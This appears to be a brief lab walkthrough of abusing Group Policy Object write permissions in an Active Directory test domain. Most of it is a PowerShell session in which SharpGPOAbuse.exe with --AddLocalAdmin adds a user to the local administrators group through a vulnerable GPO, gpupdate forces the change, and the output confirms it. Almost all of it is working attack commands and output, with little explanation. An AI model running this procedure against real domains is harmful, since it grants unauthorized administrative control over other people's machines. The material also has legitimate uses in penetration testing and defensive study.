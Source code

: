 https://github.com/FSecureLABS/SharpGPOAbuse

https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master

users has gpo write permissions

![image](https://user-images.githubusercontent.com/13157446/137199957-d1dd3c7e-3843-4ccb-8ed0-3564a935d698.png)


we will use "SharpGPOAbuse.exe "  and edit gpo to add a user to local admin group

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net localgroup administrators
	Alias name     administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain

	Members

	-------------------------------------------------------------------------------
	adm1n
	Administrator
	nightmare
	VALHALLA\Domain Admins
	win10
	The command completed successfully.


	PS C:\Users\testuser\Desktop\PowerSploit\Recon> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount mrblack --GPOName "vulngpo"
	[+] Domain = valhalla.local
	[+] Domain Controller = odin.valhalla.local
	[+] Distinguished Name = CN=Policies,CN=System,DC=valhalla,DC=local
	[+] SID Value of mrblack = S-1-5-21-3410397846-649609989-2919355437-2121
	[+] GUID of "vulngpo" is: {15DD3A52-32EB-4A98-ACAF-476C235E7968}
	[+] Creating file \\valhalla.local\SysVol\valhalla.local\Policies\{15DD3A52-32EB-4A98-ACAF-476C235E7968}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
	[+] versionNumber attribute changed successfully
	[+] The version number in GPT.ini was increased successfully.
	[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
	[+] Done!
	

	PS C:\Users\testuser\Desktop\PowerSploit\Recon> gpupdate /force
	Updating policy...

	Computer Policy update has completed successfully.
	User Policy update has completed successfully.


	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net localgroup administrators
	Alias name     administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain

	Members

	-------------------------------------------------------------------------------
	Administrator
	VALHALLA\mrblack
	The command completed successfully.

  
	PS C:\Users\testuser\Desktop\PowerSploit\Recon> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	adm1n                    Administrator            DefaultAccount
	Guest                    nightmare                WDAGUtilityAccount
	win10
	The command completed successfully.

	PS C:\Users\testuser\Desktop\PowerSploit\Recon>
